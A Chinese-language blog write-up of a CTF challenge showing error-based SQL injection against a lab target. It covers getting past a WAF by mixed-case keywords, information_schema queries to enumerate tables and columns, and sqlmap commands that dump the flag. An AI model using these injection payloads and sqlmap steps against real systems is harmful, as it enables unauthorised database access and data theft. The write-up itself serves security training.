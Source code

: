 ```yaml
---
title: SQL报错注入实战
tags: Web漏洞攻击
categories: CTF比赛
---
```

## 手工注入过程
 1. 首先我们拿到一个靶机网站，随便输入一个密码，无任何回显，然后我们进行抓包判断，查看源代码发现加入tips参数能出报错提示
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162455485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162503191.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
 2. 可初步判断可以使用SQL报错注入进行注入攻击，然后我们对name变量进行插入恶意语句
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162519249.png)
<!--more-->
 3. 发现我们的select关键词被WAF过滤了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162548472.png)
 4. 然后我们采用大小写绕过的方式，成功回显
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162608918.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162617134.png)
 5. 我们成功绕过WAF后，就可以正式展开攻击了。攻击的方式是将select 1中的1替换成我们想要查询的参数，这里我们替换成`group_concat(table_name) from information_schema.tables where table_schema=database()`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162658776.png)
 6. 执行成功后，可以看到所有的数据库名，fl4g和users
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162719437.png)
 7. 然后我们再进一步查询相应数据库的字段名，我们这里要查询的是fl4g这个数据库，查询语句为`sElEct group_concat(column_name) from information_schema.columns where table_name='fl4g'`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162749320.png)
 8. 最后查询语句替换为sElEct flag from fl4g，直接出flag值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162809150.png)
## Sqlmap自动化注入
 1. 这里介绍第二种方式，使用sqlmap进行自动化注入的方式
首先我们用burpsuite神器进行抓包，将抓获的内容保存为request.txt文件
<!--more-->
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162852232.png)
2. 然后键入如下命令`sqlmap -r request.txt --dbms=mysql`，然后判断出存在POST注入漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162949388.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
3. 然后切换命令，爆破出数据库名称`sqlmap -r request.txt --dbs --dbms=mysql –batch`，这里我们的目标是note数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032516301327.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
4. 然后指定数据库，爆出表名`sqlmap -r request.txt --dbs -D note --tables --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163031404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
5. 然后爆出对应的字段名`sqlmap -r request.txt --dbs -D note -T fl4g --columns --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163051891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
6. 最后爆破出flag值`sqlmap -r request.txt --dbs -D note -T fl4g -C flag --dbms=mysql --batch --dump`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163109890.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)

